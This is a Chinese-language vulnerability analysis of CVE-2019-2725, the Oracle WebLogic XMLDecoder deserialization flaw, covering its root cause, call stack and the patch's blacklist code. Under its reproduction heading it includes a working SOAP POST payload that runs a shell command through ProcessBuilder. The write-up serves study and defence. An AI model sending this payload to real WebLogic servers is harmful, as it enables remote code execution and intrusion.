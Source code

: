# CVE-2019-2725-Weblogic SOAP XMLDecoder反序列化漏洞

## 漏洞原理

​	本次反序列化漏洞绕过以往补丁的关键点在于利用了Class元素指定任意类名，因为CVE-2017-10271补丁限制了带method属性的void元素，所以不能调用指定的方法，而只能调用完成类实例化过程的构造方法。在寻找利用链的过程中发现UnitOfWorkChangeSet类构造方法中直接调用了JDK原生类中的readObject()方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中array标签的class属性值必须为byte的要求，再借助带index属性的void元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用JDK 7u21反序列化漏洞造成了远程代码执行。通过巧妙的利用了void、array和Class这三个元素成功的打造了利用链，再次完美的绕过了CVE-2017-10271补丁限制，本次漏洞的发现进一步证明了依靠黑名单机制是一种不可靠的防护措施。

## 漏洞复现

payload

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.8.139:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-live
Content-Type: text/xml
Content-Length: 1257

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:wsa="http://www.w3.org/2005/08/addressing"
                  xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action>xx</wsa:Action>
        <wsa:RelatesTo>xx</wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>touch /tmp/CVE-2019-2725</string>
                        </void>
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery/>
    </soapenv:Body>
</soapenv:Envelope> 
```

## 漏洞分析

调用栈

```java
readObject:203, XMLDecoder (java.beans)
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)

handleRequest:27, WorkAreaServerHandler (weblogic.wsee.workarea)
handleRequest:141, HandlerIterator (weblogic.wsee.handler)
dispatch:114, ServerDispatcher (weblogic.wsee.ws.dispatch.server)
invoke:80, WsSkel (weblogic.wsee.ws)
handlePost:66, SoapProcessor (weblogic.wsee.server.servlet)
process:44, SoapProcessor (weblogic.wsee.server.servlet)
run:285, BaseWSServlet$AuthorizedInvoke (weblogic.wsee.server.servlet)
service:169, BaseWSServlet (weblogic.wsee.server.servlet)
```

在weblogic.wsee.server.servlet.BaseWSServlet.AuthorizedInvoke#run方法内下断点 

发送payload，成功触发断点 

## 漏洞修复

本次补丁将class关键字也加入了黑名单，杜绝了调用任何类

```java
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if (qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if (qName.equalsIgnoreCase("class")) {
               throw new IllegalStateException("Invalid element qName:class");
            } else if (qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if (qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if (qName.equalsIgnoreCase("void")) {
                  for(int i = 0; i < attributes.getLength(); ++i) {
                     if (!"index".equalsIgnoreCase(attributes.getQName(i))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(i));
                     }
                  }
               }
               if (qName.equalsIgnoreCase("array")) {
                  String attClass = attributes.getValue("class");
                  if (attClass != null && !attClass.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }
                  String lengthString = attributes.getValue("length");
                  if (lengthString != null) {
                     try {
                        int length = Integer.valueOf(lengthString);
                        if (length >= WorkContextXmlInputAdapter.MAXARRAYLENGTH) {
                           throw new IllegalStateException("Exceed array length limitation");
                        }
                        this.overallarraylength += length;
                        if (this.overallarraylength >= WorkContextXmlInputAdapter.OVERALLMAXARRAYLENGTH) {
                           throw new IllegalStateException("Exceed over all array limitation.");
                        }
                     } catch (NumberFormatException var8) {
```



## 参考

https://mp.weixin.qq.com/s/tWgRhtFtabL-ceLaRWlY7g

https://balis0ng.com/post/lou-dong-fen-xi/weblogic-wls9-asynczu-jian-rcelou-dong-fen-xi

https://xz.aliyun.com/t/4895

https://www.anquanke.com/post/id/238644



https://xz.aliyun.com/t/5024
